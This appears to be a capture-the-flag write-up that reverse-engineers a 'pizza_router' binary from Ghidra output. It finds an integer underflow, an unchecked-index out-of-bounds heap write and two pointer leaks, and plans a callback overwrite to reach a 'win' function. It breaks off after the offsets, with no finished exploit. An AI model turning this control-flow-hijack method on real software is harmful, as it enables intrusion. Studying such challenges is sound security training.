








Given

Map Overview

Map Overview
We are given three maps:
city1,city2,city3.Legend:
S→ start.→ path#→ wallEach map looks like a grid/maze with a single starting point.
Given the challenge name pizza_router, this likely relates to pathfinding / routing on these maps.
Checksec & File

Binary Info
From
fileandchecksec:
- PIE enabled → addresses are randomized
- Not stripped → symbols are available
→ Easier to analyze (symbols help), but need to handle PIE during exploitation
Strings -n 4 router

Quick Recon from
stringsRunning
strings -n 4 routergives a rough overview of the program’s functionality.Some interesting commands immediately stand out:
loadmapsadd_ordercouponreroutedispatchreplayreceiptThe
couponcommand is especially interesting, since it suggests some kind of discount logic that may affect values internally.At this stage,
stringshelps us identify the main features and attack surface quickly.
The next step is to open the binary in Ghidra and inspect how these commands are implemented.
Ghidra - main()

load_maps()

Explanation
In
main, the program callsload_map("city1")at startup, so the binary automatically loads the first map by default.Looking at
load_map(), we can see it builds the filename using:maps/%s.mapThis means map files are expected inside a
maps/directory, for example:
maps/city1.mapmaps/city2.mapmaps/city3.mapSo the program does not load arbitrary filenames directly — it specifically looks for map files from that folder using the
.mapextension.
add_order - menu
iVar6 = strcmp(pcVar11,"add_order");
if (iVar6 == 0) {
pcVar11 = strtok((char *)0x0," \t");
pcVar15 = strtok((char *)0x0," \t");
if ((pcVar11 == (char *)0x0) || (pcVar15 == (char *)0x0)) {
LAB_00101a40:
puts("usage");
}
else {
lVar13 = strtol(pcVar11,(char **)0x0,10);
uVar26 = (uint)lVar13;
uVar17 = strtol(pcVar15,(char **)0x0,10);
iVar20 = DAT_00125784;
iVar27 = G;
iVar6 = ORD_N;
uVar7 = (uint)uVar17;
if (((int)(uVar7 | uVar26) < 0) ||
(((G <= (int)uVar26 || (DAT_00125784 <= (int)uVar7)) ||
((&DAT_00125788)[(long)(int)uVar26 + (long)(int)uVar7 * 0x20] == '#')))) {
puts("bad target");
}
else {
if (ORD_N < 0x20) {
lVar13 = (long)ORD_N;
lVar30 = lVar13 * 0x1038;
piVar21 = &ORD + lVar13 * 0x40e;
for (lVar16 = 0x207; lVar16 != 0; lVar16 = lVar16 + -1) {
piVar21[0] = 0;
piVar21[1] = 0;
piVar21 = piVar21 + (ulong)bVar31 * -4 + 2;
}
(&ORD)[lVar13 * 0x40e] = iVar6;
*(uint *)(&DAT_00105084 + lVar30) = uVar26;
*(uint *)(&DAT_00105088 + lVar30) = uVar7;
*(undefined8 *)(&DAT_0010508c + lVar30) = 0x100000000;
iVar19 = iVar20 * iVar27;
iVar8 = DAT_00125b8c * iVar27 + _DAT_00125b88;
sVar12 = (long)iVar19 << 2;
iVar25 = uVar26 + uVar7 * iVar27;
__s = calloc((long)iVar19,4);
__s_00 = malloc(sVar12);
if (0 < iVar19) {
memset(__s,0x3f,sVar12);
memset(__s_00,0xff,sVar12);
}
*(undefined4 *)((long)__s + (long)iVar8 * 4) = 0;
puVar14 = calloc(0x440,1);
if (puVar14 == (undefined4 *)0x0) {
perror("malloc");
/* WARNING: Subroutine does not return */
exit(1);
}
iVar19 = 1;
puVar28 = puVar14 + 6;
*puVar14 = 0x80;
*(undefined4 **)(puVar14 + 4) = puVar14 + 0x108;
*(code **)(puVar14 + 0x10c) = fx_finish_dummy;
*(code **)(puVar14 + 0x10e) = fx_draw_basic;
*(undefined4 **)(puVar14 + 2) = puVar28;
*(undefined8 *)(puVar14 + 0x108) = 0x6e6f656e;
*(undefined8 *)(puVar14 + 0x10a) = 0;
*(undefined4 **)(&DAT_001060a8 + lVar13 * 0x1038) = puVar14;
*(undefined4 **)(&DAT_001060b0 + lVar13 * 0x1038) = puVar14;
puVar14[8] = iVar8;
LAB_001018f8:
iVar24 = iVar19 + -1;
uVar5 = *(undefined8 *)(puVar28 + (long)iVar19 * 2);
iVar4 = puVar14[8];
puVar14[1] = iVar24;
*(undefined8 *)(puVar14 + 8) = uVar5;
iVar19 = 1;
do {
iVar22 = iVar19 * 2;
iVar10 = iVar22 + 1;
if ((iVar24 < iVar22) ||
((int)puVar14[(long)iVar19 * 2 + 7] <= (int)puVar14[(long)iVar22 * 2 + 7])) {
if ((iVar24 < iVar10) ||
(iVar9 = iVar10,
(int)puVar14[(long)iVar19 * 2 + 7] <= (int)puVar14[(long)iVar10 * 2 + 7]))
goto LAB_00101980;
}
else {
iVar9 = iVar22;
if ((iVar10 <= iVar24) &&
(iVar9 = iVar10,
(int)puVar14[(long)iVar22 * 2 + 7] <= (int)puVar14[(long)iVar10 * 2 + 7])) {
iVar9 = iVar22;
}
}
if (iVar19 == iVar9) goto LAB_00101980;
uVar5 = *(undefined8 *)(puVar28 + (long)iVar19 * 2);
*(undefined8 *)(puVar28 + (long)iVar19 * 2) =
*(undefined8 *)(puVar28 + (long)iVar9 * 2);
*(undefined8 *)(puVar28 + (long)iVar9 * 2) = uVar5;
iVar19 = iVar9;
} while( true );
}
puts("too many orders");
}
}Explanation
When
add_order <x> <y>is called, the program first parses the coordinates and validates them:pcVar11 = strtok((char *)0x0," \t"); pcVar15 = strtok((char *)0x0," \t"); if ((pcVar11 == (char *)0x0) || (pcVar15 == (char *)0x0)) { puts("usage"); } else { lVar13 = strtol(pcVar11,(char **)0x0,10); uVar26 = (uint)lVar13; uVar17 = strtol(pcVar15,(char **)0x0,10); uVar7 = (uint)uVar17; if (((int)(uVar7 | uVar26) < 0) || (((G <= (int)uVar26 || (DAT_00125784 <= (int)uVar7)) || ((&DAT_00125788)[(long)(int)uVar26 + (long)(int)uVar7 * 0x20] == '#')))) { puts("bad target"); }So before creating an order, it ensures:
- both arguments exist
- coordinates are non-negative
- coordinates stay inside the map
- target cell is not a wall (
#)
Static order structure
If the target is valid, the program initializes a per-order entry inside a global/static array:
if (ORD_N < 0x20) { lVar13 = (long)ORD_N; lVar30 = lVar13 * 0x1038; piVar21 = &ORD + lVar13 * 0x40e; for (lVar16 = 0x207; lVar16 != 0; lVar16 = lVar16 + -1) { piVar21[0] = 0; piVar21[1] = 0; piVar21 = piVar21 + (ulong)bVar31 * -4 + 2; } (&ORD)[lVar13 * 0x40e] = iVar6; *(uint *)(&DAT_00105084 + lVar30) = uVar26; *(uint *)(&DAT_00105088 + lVar30) = uVar7; *(undefined8 *)(&DAT_0010508c + lVar30) = 0x100000000;This is the static part of the order.
Important values stored here:
- order index / order id
- target
x- target
y- some default state fields
So even before touching the heap, each order already has a persistent entry in a global table.
Heap allocation
After that,
add_orderalso allocates a heap object:puVar14 = calloc(0x440,1); if (puVar14 == (undefined4 *)0x0) { perror("malloc"); exit(1); }So every order gets a dedicated heap chunk of size
0x440.Then the chunk is initialized:
*puVar14 = 0x80; *(undefined4 **)(puVar14 + 4) = puVar14 + 0x108; *(undefined4 **)(puVar14 + 2) = puVar14 + 6; *(undefined8 *)(puVar14 + 0x108) = 0x6e6f656e; *(undefined8 *)(puVar14 + 0x10a) = 0; puVar14[8] = iVar8;We do not fully know the exact structure yet, but clearly this is a runtime object with internal pointers and state.
Function pointers inside the heap object
The most interesting initialization is here:
*(code **)(puVar14 + 0x10c) = fx_finish_dummy; *(code **)(puVar14 + 0x10e) = fx_draw_basic;This means the heap object stores function pointers.
That is important because heap objects with callback-like fields are often strong candidates for:
- overwrite / corruption
- fake object abuse
- control-flow hijack later
So at this stage,
fx_finish_dummyandfx_draw_basicare worth inspecting more closely.
Link between static data and heap data
The bridge between both structures is here:
*(undefined4 **)(&DAT_001060a8 + lVar13 * 0x1038) = puVar14; *(undefined4 **)(&DAT_001060b0 + lVar13 * 0x1038) = puVar14;This is the key connection:
- the static/global order table stores metadata like id and coordinates
- the heap object stores runtime state and function pointers
- both are tied together through global pointers
So each
add_ordercreates an order split into two representations:
- a static record
- a heap-backed object
That split is likely important later, especially if one side can be modified while the other still trusts it.
Coupon - menu
iVar6 = strcmp(pcVar11,"coupon");
if (iVar6 == 0) {
pcVar11 = strtok((char *)0x0," \t");
pcVar15 = strtok((char *)0x0," \t");
if ((pcVar11 == (char *)0x0) || (pcVar15 == (char *)0x0)) goto LAB_00101a40;
lVar13 = strtol(pcVar11,(char **)0x0,10);
if (0 < ORD_N) {
piVar21 = &ORD;
iVar6 = 0;
do {
if ((piVar21[4] != 0) && ((int)lVar13 == *piVar21)) {
lVar13 = strtol(pcVar15,(char **)0x0,10);
*(int *)(&DAT_0010508c + (long)iVar6 * 0x1038) =
*(int *)(&DAT_0010508c + (long)iVar6 * 0x1038) + (int)lVar13;
__printf_chk(1,"coupon applied: %d (can underflow total)\n");
goto LAB_00101428;
}
iVar6 = iVar6 + 1;
piVar21 = piVar21 + 0x40e;
} while (iVar6 != ORD_N);
}
}Explanation
if ((piVar21[4] != 0) && ((int)lVar13 == *piVar21)) { lVar13 = strtol(pcVar15,(char **)0x0,10); *(int *)(&DAT_0010508c + (long)iVar6 * 0x1038) = *(int *)(&DAT_0010508c + (long)iVar6 * 0x1038) + (int)lVar13; __printf_chk(1,"coupon applied: %d (can underflow total)\n"); goto LAB_00101428; }Key points:
- Finds the matching order by
order_id- Directly adds user-controlled value to an internal field
- No bounds / sanity check
→ This allows integer underflow / overflow, explicitly hinted by:
(can underflow total)
reroute - menu
else {
iVar6 = strcmp(pcVar11,"reroute");
if (iVar6 == 0) {
pcVar11 = strtok((char *)0x0," \t");
pcVar15 = strtok((char *)0x0," \t");
__nptr = strtok((char *)0x0," \t");
if ((pcVar11 == (char *)0x0 || pcVar15 == (char *)0x0) || (__nptr == (char *)0x0))
goto LAB_00101a40;
lVar13 = strtol(pcVar11,(char **)0x0,10);
if (0 < ORD_N) {
piVar21 = &ORD;
iVar6 = 0;
do {
if ((piVar21[4] != 0) && ((int)lVar13 == *piVar21)) {
lVar13 = (long)iVar6 * 0x1038;
if (*(long *)(&DAT_001060a8 + lVar13) != 0) {
uVar17 = strtol(pcVar15,(char **)0x0,10);
uVar29 = uVar17 & 0xffffffff;
lVar30 = strtol(__nptr,(char **)0x0,10);
iVar27 = (int)lVar30;
lVar30 = *(long *)(*(long *)(&DAT_001060a8 + lVar13) + 8);
iVar25 = (int)uVar17;
piVar21 = (int *)(lVar30 + (long)iVar25 * 8);
iVar20 = *(int *)(&DAT_00105088 + lVar13) * G;
iVar6 = *(int *)(&DAT_00105084 + lVar13);
piVar21[1] = iVar27;
*piVar21 = iVar20 + iVar6;
lVar13 = (long)iVar25;
if (1 < iVar25) goto LAB_00102015;
goto LAB_00102028;
}
break;
}
iVar6 = iVar6 + 1;
piVar21 = piVar21 + 0x40e;
} while (ORD_N != iVar6);
}
}LAB_00102015:
uVar26 = (int)uVar29 >> 1;
uVar29 = (ulong)uVar26;
puVar2 = (undefined8 *)(lVar30 + lVar13 * 8);
lVar13 = (long)(int)uVar26;
puVar3 = (undefined8 *)(lVar30 + lVar13 * 8);
if (*(int *)((long)puVar3 + 4) <= iVar27) break;
}Explanation
Before looking at
reroute, recall two important parts fromadd_order.First, every order gets a heap object:
puVar14 = calloc(0x440,1); *puVar14 = 0x80; *(undefined4 **)(puVar14 + 4) = puVar14 + 0x108; *(undefined4 **)(puVar14 + 2) = puVar14 + 6; *(code **)(puVar14 + 0x10c) = fx_finish_dummy; *(code **)(puVar14 + 0x10e) = fx_draw_basic;And that heap object is stored inside a global table:
*(undefined4 **)(&DAT_001060a8 + lVar13 * 0x1038) = puVar14; *(undefined4 **)(&DAT_001060b0 + lVar13 * 0x1038) = puVar14;Second,
add_orderalso stores the order coordinates in the static order entry:*(uint *)(&DAT_00105084 + lVar30) = uVar26; // x *(uint *)(&DAT_00105088 + lVar30) = uVar7; // ySo from
add_order, we already know:
- the order has a heap-backed object
- the order’s x/y coordinates are saved in global/static storage
Now look at the core part of
reroute:if ((piVar21[4] != 0) && ((int)lVar13 == *piVar21)) { lVar13 = (long)iVar6 * 0x1038; if (*(long *)(&DAT_001060a8 + lVar13) != 0) { uVar17 = strtol(pcVar15,(char **)0x0,10); uVar29 = uVar17 & 0xffffffff; lVar30 = strtol(__nptr,(char **)0x0,10); iVar27 = (int)lVar30; lVar30 = *(long *)(*(long *)(&DAT_001060a8 + lVar13) + 8); iVar25 = (int)uVar17; piVar21 = (int *)(lVar30 + (long)iVar25 * 8); iVar20 = *(int *)(&DAT_00105088 + lVar13) * G; iVar6 = *(int *)(&DAT_00105084 + lVar13); piVar21[1] = iVar27; *piVar21 = iVar20 + iVar6; lVar13 = (long)iVar25; if (1 < iVar25) goto LAB_00102015; goto LAB_00102028; } }
What this uses internally
This line reconnects us to the heap object created earlier in
add_order:lVar30 = *(long *)(*(long *)(&DAT_001060a8 + lVar13) + 8);Step by step:
&DAT_001060a8 + lVar13→ selects the current order entry in the global table*(long *)(&DAT_001060a8 + lVar13)→ loads the heap pointer (puVar14) saved byadd_order+ 8→ reads another pointer from inside that heap objectSo
lVar30becomes the base address of an internal heap buffer associated with that order.That means
rerouteis not writing into the static order table directly — it is writing into memory reachable through the heap object fromadd_order.
Once the base is resolved, the program computes:
piVar21 = (int *)(lVar30 + (long)iVar25 * 8);where: - `lVar30` = heap buffer base - `iVar25` = second argument of `reroute` // reroute <id> <heap_idx> <new_cost>\n ( refer to help menu from main)So the second
rerouteargument is effectively used as an index:target = base + idx * 8Then it performs:
piVar21[1] = iVar27; *piVar21 = iVar20 + iVar6;or equivalently:
*(int *)(target + 4) = iVar27; *(int *)(target + 0) = iVar20 + iVar6;
Where the written values come from
Upper 4 bytes
piVar21[1] = iVar27;
iVar27comes from:lVar30 = strtol(__nptr,(char **)0x0,10); iVar27 = (int)lVar30;So this is directly controlled by the third argument of
reroute.
Lower 4 bytes
*piVar21 = iVar20 + iVar6;Those values are loaded from the coordinates previously stored by
add_order:iVar20 = *(int *)(&DAT_00105088 + lVar13) * G; // y * width iVar6 = *(int *)(&DAT_00105084 + lVar13); // xSo:
*piVar21 = order_y * G + order_x;Important reminder:
order_xandorder_yhere are the coordinates we originally supplied when callingadd_order <x> <y>.So this write is not a fully controlled 8-byte write:
- lower 4 bytes = derived from the order coordinates we chose earlier in
add_order- upper 4 bytes = directly controlled by the 3rd
rerouteargumentIn short:
[ base + idx*8 + 0 ] = y*G + x // semi-controlled via add_order coords [ base + idx*8 + 4 ] = reroute_arg3 // directly controlled
Main bug
The core bug is here:
iVar25 = (int)uVar17; piVar21 = (int *)(lVar30 + (long)iVar25 * 8);
iVar25comes from:uVar17 = strtol(pcVar15,(char **)0x0,10);which is the second argument of
reroute.There is no bounds check before it is used as an index.
No check like:
idx >= 0idx < route_lenidx < allocated_entriesSo the program trusts our index completely and computes:
target = base + idx * 8even if
idxis outside the intended route buffer.That is the real vulnerability:
- attacker controls
idxidxis used directly in pointer arithmetic- resulting pointer is written to
- no validation happens first
So
reroutegives an out-of-bounds write primitive relative to the heap buffer inside the order object.
Important constraint: positive indices
After performing the write, the function does:
lVar13 = (long)iVar25; if (1 < iVar25) goto LAB_00102015; goto LAB_00102028;So if the index is greater than 1, execution jumps into:
LAB_00102015: uVar26 = (int)uVar29 >> 1; uVar29 = (ulong)uVar26; puVar2 = (undefined8 *)(lVar30 + lVar13 * 8); lVar13 = (long)(int)uVar26; puVar3 = (undefined8 *)(lVar30 + lVar13 * 8); if (*(int *)((long)puVar3 + 4) <= iVar27) break;And from there, it continues walking/comparing heap entries.
The dangerous part is this dereference:if (*(int *)((long)puVar3 + 4) <= iVar27) break;Here
puVar3is computed from:puVar3 = (undefined8 *)(lVar30 + lVar13 * 8);So if we supplied a large positive index, the code starts reading from a computed heap slot before doing anything else.
If that slot is outside valid mapped memory, this read will crash immediately.
That is why positive large indices are unstable for exploitation:
- they do not just write
- they also enter the heap-fixup / comparison path
- that path dereferences computed addresses
- invalid positive indices can segfault there
So the “bad” path is:
if (1 < iVar25) goto LAB_00102015; LAB_00102015: ... puVar3 = (undefined8 *)(lVar30 + lVar13 * 8); if (*(int *)((long)puVar3 + 4) <= iVar27) break;In practice, this is what makes aggressive positive indices unreliable.
Practical takeaway
rerouteis the strongest primitive so far because it lets us write relative to a heap buffer reachable through the order object.What we get:
- base pointer comes from the heap object created in
add_order- index comes from the second
rerouteargument- upper 4 bytes come from the third
rerouteargument- lower 4 bytes come from the original
add_order(x, y)coordinatesSo the primitive is:
target = heap_base + idx * 8 write_4(target + 0, y*G + x) write_4(target + 4, reroute_arg3)Main issue:
- no bounds check on
idxMain constraint:
- if
idx > 1, code jumps toLAB_00102015- that path dereferences computed addresses
- large positive indices often crash there
→ So the bug is an OOB heap write, and negative indices are usually the cleaner way to exploit it.
dispatch - menu
else {
iVar6 = strcmp(pcVar11,"dispatch");
if (iVar6 == 0) {
pcVar11 = strtok((char *)0x0," \t");
if (pcVar11 == (char *)0x0) goto LAB_00101a40;
lVar13 = strtol(pcVar11,(char **)0x0,10);
if (0 < ORD_N) {
piVar21 = &ORD;
iVar6 = 0;
do {
if ((piVar21[4] != 0) && ((int)lVar13 == *piVar21)) {
lVar13 = (long)iVar6;
puts(&DAT_00103115);
lVar30 = lVar13 * 0x1038;
if (*(long *)(&DAT_001060a8 + lVar30) != 0) {
iVar6 = *(int *)(&DAT_00106098 + lVar30);
if (1 < iVar6) {
lVar16 = lVar13 * 0x207 + (long)iVar6;
puVar14 = (undefined4 *)(&DAT_00105088 + lVar16 * 8);
do {
puVar28 = puVar14 + -2;
(**(code **)(*(long *)(*(long *)(&DAT_001060a8 + lVar30) + 0x10) + 0x18))
(puVar14[2],puVar14[3],*puVar14,puVar14[1]);
puVar14 = puVar28;
} while (&ORD + (lVar16 - (ulong)(iVar6 - 2)) * 2 != puVar28);
}
(**(code **)(*(long *)(*(long *)(&DAT_001060a8 + lVar13 * 0x1038) + 0x10) + 0x10
))();
}
goto LAB_00101428;
}
iVar6 = iVar6 + 1;
piVar21 = piVar21 + 0x40e;
} while (ORD_N != iVar6);
}
}Explanation
This is the point where the program finally executes the callbacks stored in the order object.
Recall from
add_orderEarlier,
add_orderallocated a heap object:puVar14 = calloc(0x440,1);Then it initialized these fields:
*(undefined4 **)(puVar14 + 4) = puVar14 + 0x108; *(code **)(puVar14 + 0x10c) = fx_finish_dummy; *(code **)(puVar14 + 0x10e) = fx_draw_basic;And stored the heap object globally:
*(undefined4 **)(&DAT_001060a8 + lVar13 * 0x1038) = puVar14;So every order has a heap-backed object, and that object already contains:
- a pointer at offset
+0x10fx_finish_dummyfx_draw_basic
Matching the offsets correctly
The confusing part is that Ghidra shows different pointer types:
- in
add_order,puVar14is treated likeundefined4 *- in
dispatch, some accesses are cast tolong *So the safest way is to convert everything into raw byte offsets.
From
add_order:*(undefined4 **)(puVar14 + 4) = puVar14 + 0x108;Since
puVar14isundefined4 *, this means:
puVar14 + 4→+0x10bytespuVar14 + 0x108→+0x420bytesSo this is really:
*(void **)(heap + 0x10) = heap + 0x420;Now the two function pointers:
*(code **)(puVar14 + 0x10c) = fx_finish_dummy; *(code **)(puVar14 + 0x10e) = fx_draw_basic;Again because
puVar14isundefined4 *:
puVar14 + 0x10c→0x10c * 4 = 0x430puVar14 + 0x10e→0x10e * 4 = 0x438So in byte form:
heap + 0x10 -> pointer to heap + 0x420 heap + 0x430 -> fx_finish_dummy heap + 0x438 -> fx_draw_basicThat is the real layout.
First indirect call:
fx_draw_basicInside
dispatch, the first call is:(**(code **)(*(long *)(*(long *)(&DAT_001060a8 + lVar30) + 0x10) + 0x18)) (puVar14[2], puVar14[3], *puVar14, puVar14[1]);Break it step by step.
1. Load the heap object
*(long *)(&DAT_001060a8 + lVar30)This gives back the same heap pointer created in
add_order.2. Read the pointer at offset
+0x10*(long *)(heap + 0x10)From the layout above, we already know:
*(long *)(heap + 0x10) = heap + 0x4203. Add
+0x18So the function pointer used here is:
*(code **)((heap + 0x420) + 0x18)which becomes:
*(code **)(heap + 0x438)And that matches exactly:
*(code **)(puVar14 + 0x10e) = fx_draw_basic;because:
0x10e * 4 = 0x438So this call resolves to
fx_draw_basic.
Second indirect call:
fx_finish_dummyThe second call is:
(**(code **)(*(long *)(*(long *)(&DAT_001060a8 + lVar13 * 0x1038) + 0x10) + 0x10))();Do the same resolution.
1. Load the heap object
*(long *)(&DAT_001060a8 + lVar13 * 0x1038)→ gives
heap2. Read the pointer at
heap + 0x10*(long *)(heap + 0x10) = heap + 0x4203. Add
+0x10So the called function pointer becomes:
*(code **)((heap + 0x420) + 0x10)which is:
*(code **)(heap + 0x430)And that matches:
*(code **)(puVar14 + 0x10c) = fx_finish_dummy;because:
0x10c * 4 = 0x430So this second call resolves to
fx_finish_dummy.
Final mapping
So the heap layout and the indirect calls line up like this:
heap + 0x10 -> heap + 0x420 heap + 0x430 -> fx_finish_dummy heap + 0x438 -> fx_draw_basicThen
dispatchuses:*(code **)(*(long *)(heap + 0x10) + 0x10) -> *(code **)(heap + 0x430) -> fx_finish_dummy *(code **)(*(long *)(heap + 0x10) + 0x18) -> *(code **)(heap + 0x438) -> fx_draw_basicSo even though Ghidra shows
undefined4 *in one place andlong *in another, they are still referring to the same fields once everything is converted into byte offsets.
Why
fx_finish_dummyis more interestingBoth callbacks are useful, but
fx_finish_dummyis the better target.Reason:
fx_draw_basicis called with 4 argumentsfx_finish_dummyis called with no argumentsSo if we ever corrupt the callback table, hijacking the
finishslot is cleaner because we do not need to care about argument setup.The more interesting sink is therefore:
*(code **)(heap + 0x430)which is the slot used for
fx_finish_dummy.
Replay - menu
else {
iVar6 = strcmp(pcVar11,"replay");
if (iVar6 == 0) {
pcVar11 = strtok((char *)0x0," \t");
if (pcVar11 == (char *)0x0) goto LAB_00101a40;
lVar13 = strtol(pcVar11,(char **)0x0,10);
if (0 < ORD_N) {
piVar21 = &ORD;
iVar6 = 0;
do {
if ((piVar21[4] != 0) && ((int)lVar13 == *piVar21)) {
lVar13 = (long)iVar6 * 0x1038;
__printf_chk(1,"replay: %d points; renderer=%p\n",
*(undefined4 *)(&DAT_00106098 + lVar13),
*(undefined8 *)(&DAT_001060a0 + lVar13));
iVar27 = *(int *)(&DAT_00106098 + lVar13) + -1;
if (-1 < iVar27) {
puVar14 = &ORD + ((long)*(int *)(&DAT_00106098 + lVar13) + (long)iVar6 * 0x207
) * 2;
while( true ) {
if (iVar27 == 0) break;
__printf_chk(1,"(%d,%d)%s",puVar14[4],puVar14[5],&DAT_00103134);
iVar27 = iVar27 + -1;
puVar14 = puVar14 + -2;
}
__printf_chk(1,"(%d,%d)%s",puVar14[4],puVar14[5],&DAT_001030e3);
}
goto LAB_00101428;
}
iVar6 = iVar6 + 1;
piVar21 = piVar21 + 0x40e;
} while (ORD_N != iVar6);
}
}Explanation
This command is very useful because it gives us an info leak.
Relevant code:
__printf_chk(1,"replay: %d points; renderer=%p\n", *(undefined4 *)(&DAT_00106098 + lVar13), *(undefined8 *)(&DAT_001060a0 + lVar13));
What it prints
The output format is:
replay: <points>; renderer=<address>Where:
<points>→ number of route entries<address>→ value stored at:*(undefined8 *)(&DAT_001060a0 + lVar13)This is printed using
%p, so we directly get a pointer leak.
Where does this pointer come from?
Later in the code:

*(code **)(&DAT_001060a0 + lVar13 * 0x1038) = fx_draw_basic;So this global slot stores:
renderer = fx_draw_basicMeaning the leak we get is actually:
leaked address = address of fx_draw_basic
Why this matters (PIE bypass)
From earlier:
- the binary has PIE enabled
- so all addresses are randomized at runtime
But here:
→ we directly leak the address of
fx_draw_basicOnce we have that, we can compute:
binary_base = leaked_fx_draw_basic - offset_of_fx_draw_basicSo this completely breaks PIE.
Receipt - menu
else {
iVar6 = strcmp(pcVar11,"receipt");
if (iVar6 != 0) {
puts("?");
goto LAB_00101428;
}
pcVar11 = strtok((char *)0x0," \t");
if (pcVar11 == (char *)0x0) goto LAB_00101a40;
lVar13 = strtol(pcVar11,(char **)0x0,10);
if (0 < ORD_N) {
piVar21 = &ORD;
iVar6 = 0;
do {
if ((piVar21[4] != 0) && ((int)lVar13 == *piVar21)) {
lVar13 = (long)iVar6 * 0x1038;
__printf_chk(1,"receipt: hops=%d coupon=%d total=%d hint=%p\n",
*(int *)(&DAT_00106098 + lVar13),*(int *)(&DAT_0010508c + lVar13),
*(int *)(&DAT_00106098 + lVar13) - *(int *)(&DAT_0010508c + lVar13)
,*(undefined8 *)(&DAT_001060b0 + lVar13));
goto LAB_00101428;
}
iVar6 = iVar6 + 1;
piVar21 = piVar21 + 0x40e;
} while (ORD_N != iVar6);Explanation
This menu is another useful leak primitive.
Relevant code:
__printf_chk(1,"receipt: hops=%d coupon=%d total=%d hint=%p\n", *(int *)(&DAT_00106098 + lVar13), *(int *)(&DAT_0010508c + lVar13), *(int *)(&DAT_00106098 + lVar13) - *(int *)(&DAT_0010508c + lVar13), *(undefined8 *)(&DAT_001060b0 + lVar13));
The interesting part:
hint=%pJust like
replay, this function also prints a pointer with%p:*(undefined8 *)(&DAT_001060b0 + lVar13)And from
add_order, we already know exactly what gets stored there:*(undefined4 **)(&DAT_001060b0 + lVar13 * 0x1038) = puVar14;So the leaked
hintpointer is simply:hint = puVar14which is the heap object allocated for that order.
Why this matters
This gives us a heap leak.
So now we have two very useful disclosures:
replay→ leaksfx_draw_basic→ lets us recover the PIE basereceipt→ leakspuVar14→ lets us recover the heap addressThat is extremely useful because our
rerouteprimitive writes relative to memory reachable from this heap object.
What’s next?
Finding Target Offsets
At this point:
reroute→ gives OOB writedispatch→ executes function pointersSo the goal is clear: overwrite a callback with
win.
Target callback
From earlier:
heap + 0x430 -> fx_finish_dummy (called with no args) heap + 0x438 -> fx_draw_basic
fx_finish_dummyis the better target since it takes no arguments.
Getting offsets (Ghidra)
Just double click the function → hover the address → take the imagebase offset.
We get:
fx_draw_basic → 0x2260 win → 0x2460
Using the leak
From
replay, we leak:fx_draw_basic addressSo:
